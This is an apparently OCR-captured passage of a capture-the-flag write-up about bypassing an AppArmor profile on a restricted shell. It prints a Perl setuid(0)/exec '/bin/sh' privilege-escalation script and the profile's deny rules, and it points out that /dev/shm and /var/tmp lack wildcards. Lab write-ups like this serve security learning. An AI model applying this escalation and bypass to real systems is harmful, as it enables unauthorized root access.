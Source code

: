 ```
Searching for ways to bypass apparmor I found this trick on hacktricks.


```
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```
I wasn’t able to write to /tmp. We can check the rules at /etc/apparmor.d/usr.sbin.ash because the shell we are using is /usr/sbin/ash

```
think@publisher:/etc/apparmor.d$ cat usr.sbin.ash
#include <tunables/global>                                                                                                                                                                                         
                                                                                                                                                                                                                   
/usr/sbin/ash flags=(complain) {                                                                                                                                                                                   
  #include <abstractions/base>                                                                                                                                                                                     
  #include <abstractions/bash>      
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>
                                                                                                                                                                                                                   
  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```
As we can see here that we can’t write in a lot of directories, even our own home directory.

We notice that /dev/shm and /var/tmp/ don’t have the wildcard *.

Let’s see if we can write to them

```
